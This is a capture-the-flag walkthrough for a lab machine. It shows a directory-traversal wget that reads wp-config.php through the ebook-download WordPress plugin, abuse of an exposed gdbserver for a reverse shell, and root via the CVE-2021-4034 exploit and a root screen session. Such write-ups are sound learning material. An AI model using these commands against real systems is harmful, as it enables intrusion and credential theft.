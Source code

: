 ## Path

### User

1. `wpscan` shows that the plugin `ebook-download` has directory traversal. We can download the files on the box.

```
wget http://$ip/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

2. Scan all ports found port 1337 is open.
3. Connect to port 1337, but nothing happen.
4. Write the script `read_file.py` to leverage the file read vuln to find out which process might be running the port 1337, and get its cmdline. The result shows that it is a gdb server:

```
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

5. Use `gdb` to connect to the gdb server.

```
$ gdb
pwndbg> target remote 10.10.11.125:1337
Remote debugging using 10.10.11.125:1337
Reading /usr/bin/true from remote target...
```

6. Follow [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver#upload-and-execute) to get a reverse shell.

### Root

1. `screen` has SUID, and there's a script keep screen root session running, so it might be the way.

2. Run `linpeas` and found CVE-2021-4034 useable.

3. Run the exploit [CVE-2021-4034](https://www.exploit-db.com/exploits/50689).

```
## compile locally
$ make

## put on the box
$ scp -i ../ssh/id_ed25519 evil.so user@10.10.11.125:/tmp
$ scp -i ../ssh/id_ed25519 exploit.c user@10.10.11.125:/tmp

## run exploit and get root shell
$ cd /tmp; ./exploit
# whoami
root
```

4. The intended solution seems to be using the root session of `screen` to become root.
```
$ screen -x root/root
```
